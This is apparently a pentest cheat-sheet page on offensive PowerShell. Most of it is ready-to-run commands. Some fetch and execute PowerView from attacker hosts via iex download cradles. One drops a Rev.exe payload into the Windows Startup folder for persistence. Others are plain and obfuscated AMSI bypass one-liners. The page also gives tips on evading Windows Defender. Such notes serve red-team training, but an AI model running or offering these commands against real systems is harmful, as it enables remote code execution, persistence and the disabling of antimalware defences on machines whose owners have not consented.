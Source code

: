 ```powershell
# proxy-aware
powershell -command iex (New-Object Net.WebClient).DownloadString('http://192.168.56.1/PowerView.ps1')

# non-proxy aware
$h=new-object -com WinHttp.WinHttpRequest.5.1;$h.open('GET','http://10.10.16.7/PowerView.obs.ps1',$false);$h.send();iex $h.responseText

```

for creating an opsec-safe downloader and obfuscator check out:

{% embed url="https://github.com/danielbohannon/Invoke-CradleCrafter" %}

{% hint style="info" %}
In some cases windows defender will be triggered if you try to load scripts from known public sources such as github so its better if you host the script on your own machine or somewhere else.
{% endhint %}

### <mark style="color:orange;">Download Files</mark>

```powershell
# Any version
(New-Object System.Net.WebClient).DownloadFile("http://192.168.119.155/PowerUp.ps1", "C:\Windows\Temp\PowerUp.ps1")

# Powershell 4+
## You can use 'IWR' as a shorthand
Invoke-WebRequest "http://10.10.16.7/Rev.exe" -OutFile "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\Rev.exe"
```

#### <mark style="color:green;">for more file transfer techniques, check out</mark> [_<mark style="color:green;">this section</mark>_](broken-reference)<mark style="color:green;">.</mark>

### <mark style="color:orange;">Bypass AMSI</mark>

‘Plain’ AMSI bypass example:

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

run this to bypass AMSI in the current powershell terminal that you are using:

```powershell
powershell -ep bypass

SET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```
